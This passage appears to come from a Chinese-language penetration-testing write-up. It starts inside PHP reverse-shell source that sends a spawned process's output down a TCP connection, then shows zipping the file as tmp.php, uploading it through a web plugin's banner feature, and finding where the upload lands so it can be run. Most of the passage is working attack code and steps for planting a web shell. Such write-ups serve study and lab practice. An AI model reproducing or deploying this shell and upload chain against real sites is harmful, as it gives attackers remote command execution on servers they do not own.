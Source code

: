 ```
    }

    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
      if ($debug) printit("STDOUT READ");
      $input = fread($pipes[1], $chunk_size);
      if ($debug) printit("STDOUT: $input");
      fwrite($sock, $input);
    }

    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
      if ($debug) printit("STDERR READ");
      $input = fread($pipes[2], $chunk_size);
      if ($debug) printit("STDERR: $input");
      fwrite($sock, $input);
    }
  }

  fclose($sock);
  fclose($pipes[0]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  proc_close($process);

  // Like print, but does nothing if we've daemonised ourself
  // (I can't figure out how to redirect STDOUT like a proper daemon)
  function printit ($string) {
    if (!$daemon) {
      print "$string
";
    }
  }

  ?> 
```

对其进行压缩
```
zip -r tmp.zip ./tmp.php
```

上传成功
![[QQ_1724113660978.png]]

上传成功后，也要注意文件的位置在哪，根据上述信息，上传的文件应该在 `banners` 文件夹中。
然后在这个插件的 `Settings` 中找到了 `banners` 的文件夹位置
![[QQ_1724113799827.png]]
